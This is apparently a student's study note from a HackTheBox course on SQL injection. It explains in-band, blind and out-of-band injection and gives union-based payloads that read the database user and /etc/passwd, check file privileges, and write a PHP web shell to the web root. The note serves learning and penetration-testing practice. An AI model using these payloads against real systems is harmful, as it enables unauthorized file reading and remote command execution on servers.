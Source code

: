 # Sql Injection fundamentals
#HTB #SQLi #database #webapplication 

SQL injection is very similar in nature to HTML injection and XXS where user input have not been properly validated before sent to the backend. This vulnability allow a hacker to make unintented query to the database and get a response or information they were not suppose to have access too. This is often see when escape character are use such as *\"* or *\' *. Once the hacker have the ability to execute query on the server function such as union and stacked allowed a hacker to execute both the indented command but also a new query. 

This is a focus on in-band SQLi. 
Before starting to do SQLi you need to validate that the web application is vulnerable. This is done by testing the input field with different type of inputs. 
Once a input field have been identified as vulnerable to injection, to add additional information from the input field union is used to add query to the all ready existing one.
````sql
cn' UNION select 1,user(),3,4-- -
````

This command input cn and escape with ', it will then create a new select using union where the output is the user context the web application is running in. 

This also give us the possibility to read files from the system using *LOAD_FILE*
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

If we are lucky enough and the user have high enough priv we can also write to files.  
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
First we test if the user have enough priv if it does we can write to files and there by create a shell on the webserver. 
```sql
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

## Database 
[[Database]] is way of storing information which can easily to query up again, made backup of, security controls. etc. There exists two type of database relative and non-relative databases. 
Relative database stores information in tables and row which can easily to query by using [[SQL]] to retrieve the information. 
Non-Relative database uses JSON instead for storage the information where there is a key pair value to every insert. Which have to be used to retrieve the information. 

## Type of SQLi
When it comes to [[SQL injection]] there exists two type in-band, Blind and Out-of-band. 
in-band SQLi is when the web application return the sql output directly to the front-end. 
In-band have two sup-types union based is when the return the output to us and Error based is when the output is returned in form of error messages. 

Blind injection is when the SQL output does not get return to us and we have to make assumption about the data. here we have two options boolean which return true if the statement is correct and false is it not, and time-based where we use the sleep function if the statement is correct. 

And finally we have out-of-band when we direct the output to a remote location such as DNS records. 




## Cheet sheet
[[cheatsheet-33]]
[PayloadsAllthingsSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)